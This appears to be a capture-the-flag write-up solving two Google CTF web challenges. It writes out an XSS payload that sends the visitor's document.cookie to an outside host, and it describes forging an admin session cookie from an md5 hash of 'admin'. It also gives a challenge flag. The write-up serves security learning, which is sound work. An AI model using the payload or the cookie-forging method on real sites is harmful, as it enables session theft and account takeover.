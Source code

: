 #Web

##Wallowing Wallabies - Part One
>Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them. Visit them here.

>*Please note* Please do not run automated scanners against the target - that's not the intended solution. Instead, perhaps look up "xss cookie catching", "xss cookie stealing" and other documents along those lines. Thanks!

We're brought to a home page.
![](https://github.com/lsp7856/Google-CTF/blob/master/CTF1.png)
Viewing the Source Code of the page could be helpful to start out.
Nothing too interesting.

https://wallowing-wallabies.ctfcompetition.com/robots.txt
brings us to a page of interesting links
Robots.txt is a file sites usually have to give instructions to web robots
Disallows web robots from visiting certain pages of the site
>User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
//Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors

We can submit a message on the `Disallow: /deep-blue-sea/team/vendors` page. It is vulnerable to [XSS](http://www.golemtechnologies.com/articles/prevent-xss "XSS") (Cross-Site Scripting)
><em>XSS</em> - enables attackers to inject client-side scripts into web pages viewed by other users

Once a message is submitted we're redirected a page with this text:
>Thank you, your request has been received
Your message to the admins is as follows:
!!! Expecting to find '<script src=.' in your input -- please re-read the level challenge.

This could be a hint... `<script src=.`
An XSS vector could work here to steal a user's session cookie, such as the admin
The best way to perform an XSS attack here is to trick the page into outputting data we enter
The webpage displays an error message when we don't enter information that meets its rules
The error message contains exact text we enter which is what generally leads to XSS in any situation

Let's test it out with this script in the justification box:

`<script src="bootstrap.min.js">`<br>
`</script>`<br>
`<script>document.write('<img src="http://www.softtrack.co.kr/text.php/?c='+document.cookie+'"/>');`<br>
`</script>`


To perform espionage against this site, which is our main goal, it would be pretty destructive if we were able to get a hold of the admin's session data from the cookie then try to use the session to impersonate and login as the admin


##✓ Ernst Echidna
>Can you hack [this](http://ernst-echidna.ctfcompetition.com "this") website? The robots.txt sure looks interesting.

Let's begin by taking up the hint and taking a look at the robots.txt page
>`Disallow: /admin`

Let's check out the admin page since it seems to be the only one the site doesn't want robots to see
>You are not logged in!

True...

Our best option is to try registering for an account back on the home page.

We can take a look at the source code, but there's not much there to see. Just a standard username/password screen, nothing hidden in the HTML.

After registering, a page appears that says:
>Welcome
>Thank you for registering!
>Unfortunately, there has been no content posted on this site

What if we revisit the admin page?
>Sorry, this interface is restricted to administrators only

Revisit the home page...The site is keeping track that we are now a registered member. This is a sign that it is holding our cookie. There is a possibility that the site also holds the admin's cookie too.

Go to the Pad-Lock in the URL bar, and view the cookies for this site.
![](https://github.com/lsp7856/Google-CTF/blob/master/Screen%20Shot%202016-05-25%20at%201.45.50%20PM.png?raw=true)
md5-hash is the name of our cookie

There's a hashed form of md5-hash given to us too under Content

We can try to crack this md5 hash, [md5cracker.org](http://md5cracker.org) works fine

Let's try to trick the webpage into thinking we are the administrator.

We can create our own md5hash of the username: admin

[This site works](http://md5cracker.org/create-md5)
Edit our current cookie for the username we registered and change it to our new hashed form of admin.
To do this we need to download a quick Cookie editor extension. I used EditThisCookie which is a free Chrome extension. We can remove it when we are done with this CTF challenge, or not. Then, change the value of our cookie to the hashed admin value.

Now when we go to /admin the webpage says:
>The authentication server says..
>Congratulations, your token is 'CTF{renaming-a-bunch-of-levels-sure-is-annoying}'

